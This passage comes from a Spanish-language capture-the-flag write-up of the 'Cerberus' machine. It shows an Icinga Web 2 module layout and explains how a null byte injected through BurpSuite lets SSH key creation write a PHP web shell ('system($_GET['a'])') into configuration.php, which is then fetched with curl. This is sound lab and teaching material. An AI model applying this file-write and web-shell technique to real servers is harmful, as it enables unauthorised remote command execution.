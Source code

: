 ```bash
.
└── training                Basic directory of the module
    ├── application
    │   ├── clicommands     CLI Commands
    │   ├── controllers     Web Controller
    │   ├── forms           Forms
    │   ├── locale          Translations
    │   └── views
    │       ├── helpers     View Helper
    │       └── scripts     View Scripts
    ├── configuration.php   Deploy menu, dashlets, permissions
    ├── doc                 Documentation
    ├── library
    │   └── Training        Library Code, Module Namespace
    ├── module.info         Module Metadata
    ├── public
    │   ├── css             Own CSS Code
    │   ├── img             Own Images
    │   └── js              Own JavaScript
    ├── run.php             Registration of hooks and more
    └── test
        └── php             PHP Unit Tests
```

El `configuration.php` y `run.php` llaman la atención, usaremos el primero.

Ahora podemos intentar crear otra llave SSH pero con el siguiente contenido, el null byte se lo agregaremos editando la petición por medio de BurpSuite u otro interceptor de peticiones.

![Content](/assets/writeups/cerberus/3.png)

Al hacerlo, el servidor creará la llave sin problemas pero si miramos en la ruta que le definimos:

```bash
❯ curl --output - "http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/dev/shm/configuration.php"
file:///etc/icingaweb2/ssh/matthew<?php system($_GET['a']); ?>
```
> Nota: Hay un modo más sencillo de lograr escribir el fichero con código PHP, lo explicaré en el Extra.
{: .prompt-info}
